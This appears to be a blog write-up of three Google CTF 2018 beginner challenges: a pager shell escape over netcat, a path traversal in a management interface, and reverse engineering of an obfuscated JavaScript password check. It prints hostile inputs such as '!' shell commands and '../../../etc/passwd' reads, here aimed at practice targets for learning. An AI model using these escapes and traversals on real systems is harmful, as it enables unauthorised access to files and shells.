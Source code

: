 # Time For Moar Google CTF 2018

[Last time](Google_CTF_2018_1.html), I explored the first five beginner's
quests of Google CTF 2018, and now, it's time for MOAR!

## Moar

The quest prompt gave a `netcat` server address, let's connect and see what's
over on the other side:

```
$ nc moar.ctfcompetition.com 1337
[...]
NAME
       socat - Multipurpose relay (SOcket CAT)

SYNOPSIS
       socat [options] <address> <address>
       socat -V
       socat -h[h[h]] | -?[?[?]]
       filan
       procan
[...]
```

It is the `man` page for `socat`, over the pager `less`. Tying `q` would drop
the connection. What about `h`? It opens the help text, but it is too hard to
read over `netcat`. I opened a local copy of `less` and found:

```
[...]
  !command             Execute the shell command with $SHELL.
  |Xcommand            Pipe file between current pos & mark X to shell command.
[...]
```

Time to try it:

```
$ nc moar.ctfcompetition.com 1337
! ls /
bin   dev  home  lib64  mnt  proc  run   srv  tmp  var
boot  etc  lib   media  opt  root  sbin  sys  usr
! ls ~
ls: cannot access '/home/unprivileged': No such file or directory
! ls /home
moar
! ls /home/moar
disable_dmz.sh
! /home/moar/disable_dmz.sh
Disabling DMZ using password CTF{SOmething-CATastr0phic}
/home/moar/disable_dmz.sh: 18: /home/moar/disable_dmz.sh: cannot create /dev/dmz: Read-only file system
```

And there is the flag.

## Admin UI

Another remote exploitation quest:

```
$ nc mngmnt-iface.ctfcompetition.com 1337
=== Management Interface ===
 1) Service access
 2) Read EULA/patch notes
 3) Quit

1
Please enter the backdoo^Wservice password:

abcd
Incorrect, the authorities have been informed!
```

Ops, that's not good. What's in the patch notes?

```
[...]
2
The following patchnotes were found:
 - Version0.3
 - Version0.2
Which patchnotes should be shown?

Version0.3
# Version 0.3
 - Rollback of version 0.2 because of random reasons
 - Blah Blah
 - Fix random reboots at 2:32 every second Friday when it's new-moon.

[...]
Version0.2
# Release 0.2
 - Updated library X to version 0.Y
 - Fixed path traversal bug
 - Improved the UX

[...]
Version0.1
Error: No such file or directory
```

Hum, `No such file or directory`? Looks like it will print any file that
exists. I tried `flag` and `flag.txt`, but it didn't work. Looking closer at
the patch notes, version 0.2 mentions something about path traversal bug fix
and 0.3 rolled that back. Is that a hint?

```
[...]
../../../etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
[...]
```

Oh, it works!

```
[...]
../flag
CTF{I_luv_buggy_sOFtware}
```

## JS Safe

The ZIP file only contains an HTML file. Opening it reveals some HTML, CSS, and
two `<script>` tags. The second one seems to be just the basic functionality of
the webpage, and the first one is the one to investigate. Also, it looks like
the password to the safe is also the flag because the following regular
expression is in the second script tag:

```JavaScript
  password = /^CTF{([0-9a-zA-Z_@!?-]+)}$/.exec(keyhole.value);
```

The first script block is (somewhat) obfuscated:

```JavaScript
async function x(password) {
    // TODO: check if they can just use Google to get the password once they understand how this works.
    var code = '<long string removed>'
    var env = {
        a: (x,y) => x[y],
        b: (x,y) => Function.constructor.apply.apply(x, y),
        c: (x,y) => x+y,
        d: (x) => String.fromCharCode(x),
        e: 0,
        f: 1,
        g: new TextEncoder().encode(password),
        h: 0,
    };
    for (var i = 0; i < code.length; i += 4) {
        var [lhs, fn, arg1, arg2] = code.substr(i, 4);
        try {
            env[lhs] = env[fn](env[arg1], env[arg2]);
        } catch(e) {
            env[lhs] = new env[fn](env[arg1], env[arg2]);
        }
        if (env[lhs] instanceof Promise) env[lhs] = await env[lhs];
    }
    return !env.h;
}
```

The `code` string is pretty long, it's probably easier to log out what it does
in runtime:

```JavaScript
// [...]
        try {
            env[lhs] = env[fn](env[arg1], env[arg2]);
            console.log("lhs", env[lhs], "func", env[fn], "args", env[arg1], env[arg2]);
        } catch(e) {
            env[lhs] = new env[fn](env[arg1], env[arg2]);
            console.log("lhs", env[lhs], "new", env[fn], "args", env[arg1], env[arg2]);
        }
// [...]
```

Scrolling over the result, the string `sha-256` and `Uint8Array` of length 32
should be big red flags. The array can be easily encoded to hexadecimal, save
it as a temporary global variable, then run:

```JavaScript
var temp2 = ""; temp1.forEach(x => { temp2 += x.toString(16).padStart(2, "0"); }); temp2
```

After searching the result in Google, it is the SHA-256 hash of the input.
Observing the call log closely, it's easy to see that the code is looping over
my SHA-256 array. It's time to add some code to trigger a breakpoint when `lhs`
is `h`, the return value:

```JavaScript
if (lhs === "h") debugger;
```

Each value in my SHA-256 array is XOR-ed by another value, then OR-ed into `h`,
since the return value of function `x` would only be `true` if `h` is `0`, my
SHA-256 array needs to match exactly their array. It's not hard to read out
their array manually, but it's easier with some code, the final function looks
like this:

```JavaScript
async function x(password) {
    // TODO: check if they can just use Google to get the password once they understand how this works.
    var code = '<long string removed>';
    var env = {
        a: (x,y) => x[y],
        b: (x,y) => Function.constructor.apply.apply(x, y),
        c: (x,y) => x+y,
        d: (x) => String.fromCharCode(x),
        e: 0,
        f: 1,
        g: new TextEncoder().encode(password),
        h: 0,
    };
    var result = [];
    for (var i = 0; i < code.length; i += 4) {
        var [lhs, fn, arg1, arg2] = code.substr(i, 4);
        try {
            if (env[fn].toString().includes("x[0]^x[1]")) {
                result.push(env[arg1][1]);
            }
            env[lhs] = env[fn](env[arg1], env[arg2]);
            console.log("lhs", env[lhs], "func", env[fn], "args", env[arg1], env[arg2]);
        } catch(e) {
            env[lhs] = new env[fn](env[arg1], env[arg2]);
            console.log("lhs", env[lhs], "new", env[fn], "args", env[arg1], env[arg2]);
        }
        if (env[lhs] instanceof Promise) env[lhs] = await env[lhs];
    }
    result = result.map(x => x.toString(16).padStart(2, "0"));
    console.log(result.join(""));
    return !env.h;
}
```

Entering a random password like `CTF{abcd}`, a SHA-256 hashed value is logged
to the console:

```
e66860546f18cdbbcd86b35e18b525bffc67f772c650cedfe3ff7a0026fa1dee
```

Putting it into Google, `Passw0rd!` comes out, so the flag is `CTF{Passw0rd!}`.
